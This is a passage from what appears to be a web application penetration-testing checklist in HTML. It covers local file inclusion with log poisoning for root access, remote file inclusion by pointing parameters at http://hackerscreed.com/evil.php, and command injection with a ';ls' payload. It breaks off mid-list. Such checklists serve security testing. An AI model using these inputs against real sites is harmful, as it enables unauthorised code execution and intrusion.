<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>If
	the Web app is vulnerable to LFI try to Get Root Access by using The
	Log Poisioning.</i></font></p>
</ul>
<p class="western" align="left"><br/>
<br/>

</p>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>Testing
RFI:</i></font></p>
<p class="western" align="left"><br/>
<br/>

</p>
<ul>
	<li/>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>Find
	out the Vulnerable Parameters .</i></font></p>
	<li/>
<p class="western" align="left"><font size="4" style="font-size: 16pt"><i><span style="font-weight: normal">Try
	</span></i></font><a href="http://hackerscreed.com/evil.php"><font color="#000080"><font size="4" style="font-size: 16pt"><span lang="zxx"><i><u><span style="font-weight: normal">http://hackerscreed.com/evil.php</span></u></i></span></font></font></a></p>
	<li/>
<p class="western" align="left"><font size="4" style="font-size: 16pt"><i><span style="font-weight: normal">Try
	</span></i></font><a href="http://hackerscreed.com/evil"><font color="#000080"><font size="4" style="font-size: 16pt"><span lang="zxx"><i><u><span style="font-weight: normal">http://hackerscreed.com/evil</span></u></i></span></font></font></a>
	<font size="4" style="font-size: 16pt"><i><span style="font-weight: normal">-[without
	Php]</span></i></font></p>
</ul>
<p class="western" align="left"><br/>
<br/>

</p>
<p class="western" align="left"><br/>
<br/>

</p>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>Testing
Command Injection:</i></font></p>
<p class="western" align="left"><br/>
<br/>

</p>
<ul>
	<li/>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>Find
	The Parameters POST and GET.</i></font></p>
	<li/>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>Try
	Above Payloads: </i></font>
	</p>
	<ul>
		<li/>
<p class="western" align="left" style="font-weight: normal"><font size="4" style="font-size: 16pt"><i>;ls
		</i></font>